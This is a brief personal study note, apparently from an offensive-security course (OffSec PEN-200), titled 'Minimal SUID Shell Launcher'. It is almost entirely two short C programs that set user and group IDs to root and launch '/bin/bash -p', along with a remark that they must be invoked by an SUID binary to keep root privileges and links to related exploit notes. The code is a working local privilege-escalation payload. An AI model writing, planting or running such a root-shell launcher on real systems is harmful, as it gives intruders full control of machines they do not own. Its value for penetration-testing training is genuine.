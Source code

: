# Minimal SUID Shell Launcher

author:: Nathan Acks  
date:: 2022-08-05

```c
#include <stdio.h>
#include <unistd.h>

main() {
	setuid(0);
	setgid(0);
	execl("/bin/bash",
	      "/bin/bash",
	      "-p",
	      (char*) NULL);
}
```

Alternate approach:

```c
#include <stdio.h>
#include <time.h>

main() {
	setresuid(0, 0, 0);
	setregid(0, 0, 0);
	system("/bin/bash -p");
	return 0;
}
```

Once compiled, this needs to be called by an SUID binary. The `-p` is required to keep bash from dropping privileges.

Note that this is very similar to the `LD_PRELOAD` trick, except that we’re using `execl()` instead of `system()` and dropping a header.

## References

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [unistd's execl() without passing any arguments](https://stackoverflow.com/a/34400649)
* [Exploiting Bash](exploiting-bash.md)
* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)
* [2022-08-05 - OffSec Live: PEN-200](../log/2022-08-05-offsec-live-pen-200.md)
